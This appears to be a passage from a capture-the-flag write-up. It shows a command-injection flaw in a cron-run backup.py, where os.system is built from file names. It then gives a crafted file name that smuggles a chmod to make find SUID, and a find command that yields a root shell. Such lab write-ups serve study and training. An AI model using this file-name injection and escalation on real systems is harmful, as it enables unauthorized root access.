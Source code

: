 We can see the content of `backup.py`

![](images/scare/backup-src.png)

So here we can see the issue with `os.system()`, the second one.

```python
        os.system('cp "' + path + file + '" ' + path_bak)
```

In this the variable `file` is directorly used in the `os.system` so if we can name a file with certain command in `/var/www/paw-sk4-experiments` and leave it to be runned by cronjob it can give us access to root shell.

[@4ndr34z](https://twitter.com/4nqr34z) and [@thart42](https://twitter.com/theart42) figured out this part. They changed the permission of the `find` command to `4755` and then used `find` to get a root shell.

* `touch ./'"";$(chmod 4755 $(which find))'`
    - This will change the permission for `find` to `4755`
* Wait for sometime for cron to run. Then,
* `find . -exec /bin/sh -p \; -quit`

If this works then we'll have the root-shell

![](images/scare/root-shell.png)

Now we can cat the flag.

![](images/scare/root.png)
